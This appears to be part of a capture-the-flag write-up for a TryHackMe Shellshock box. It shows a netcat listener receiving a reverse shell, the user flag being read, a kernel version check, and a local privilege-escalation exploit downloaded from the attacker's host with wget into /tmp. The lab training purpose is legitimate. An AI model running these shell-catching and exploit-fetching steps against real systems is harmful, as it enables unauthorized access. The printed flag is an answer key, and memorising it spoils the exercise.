 
```bash
:~# nc -lnvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.66.29 44063
bash: cannot set terminal process group (838): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/usr/lib/cgi-bin$ ls
ls
test.cgi
www-data@ubuntu:/usr/lib/cgi-bin$ cd /home
cd /home
www-data@ubuntu:/home$ ls
ls
ryan
www-data@ubuntu:/home$ cd ryan
cd ryan
www-data@ubuntu:/home/ryan$ ls
ls
user.txt
www-data@ubuntu:/home/ryan$ cat user.txt
cat user.txt
THM{Sh3llSh0ck_r0ckz}
www-data@ubuntu:/home/ryan$ 
```

```bash
www-data@ubuntu:/home/ryan$ uname -a
uname -a
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
www-data@ubuntu:/home/ryan$ uname -r
uname -r
3.13.0-32-generic
www-data@ubuntu:/home/ryan$ cd /tmp
cd /tmp

```


<p>Downloaded https://www.exploit-db.com/exploits/37292.  ---> 37292.c</p>

<br>


![image](https://github.com/user-attachments/assets/475caf30-b61a-41c4-bf29-befab450da54)


```bash
:~# python3 -m http.server 6666
```

```bash
www-data@ubuntu:/tmp$ wget http://10.10.135.92:6666/37292.c
wget http://10.10.135.92:6666/37292.c
--2025-05-09 16:30:29--  http://10.10.135.92:6666/37292.c
Connecting to 10.10.135.92:6666... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5119 (5.0K) [text/plain]
Saving to: '37292.c'

     0K ....                                                  100%  398M=0s

2025-05-09 16:30:29 (398 MB/s) - '37292.c' saved [5119/5119]

www-data@ubuntu:/tmp$ 


```